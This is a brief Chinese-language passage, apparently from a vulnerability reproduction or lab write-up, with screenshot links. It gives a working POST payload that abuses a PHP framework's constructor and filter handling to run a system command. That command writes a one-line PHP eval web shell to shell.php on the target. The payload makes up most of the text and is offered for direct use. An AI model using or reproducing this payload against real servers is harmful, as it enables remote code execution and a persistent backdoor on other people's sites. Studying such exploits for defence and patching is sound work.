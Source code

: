 改用Heckbar发包。

​![3](assets/3-20240925234456-emdyntj.png)​

修改shell为如下，写入shell文件。

```bash
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST[cmd]) ?>' > shell.php
```

​![4](assets/4-20240925234459-hvjjsny.png)​
